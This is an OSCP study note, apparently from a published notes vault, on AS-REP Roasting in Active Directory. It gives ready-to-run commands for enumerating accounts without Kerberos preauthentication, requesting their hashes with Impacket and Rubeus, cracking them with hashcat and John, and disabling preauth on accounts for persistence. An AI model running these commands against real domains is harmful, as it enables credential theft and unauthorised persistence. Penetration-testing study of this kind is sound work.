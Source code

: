 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/n. Active Directory Attacks/3. AS-REP Roasting/"}
---
```


-------
- AS-REP, or Kerberos preauthentication, prevents offline password guessing and attacks against the server responses.
- However, if "_Do not require Kerberos preauthentication_" is enabled for specific users for applications to function properly this can be done.
- In some situations it may be possible to enable it manually also.
-----------
### Enumerate Kerberos preauth disabled:
- Locally on Windows:
```
Get-NetUser -PreauthNotRequired -Verbose | select cn
```
- Remote from kali:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
```
---------------------
### Remote AS-REP Roasting with Impacket:
- Uses ip address for domain controller and user to authenticate
1. Launch roast:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```
2. Crack hash:
```
#Hashcat:
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

#John:
john --wordlist=passwords_kerb.txt hashes.asreproast
```

-------
### Local AS-REP Roasting with Rubeus:
1. Launch roast:
```
.\Rubeus.exe asreproast /nowrap
```
2. Crack hash on kali:
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

-----------
### Targeted AS-REP Roasting Abuse/Persistence:
- Set preauth not required for users where we have write privileges:
```
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
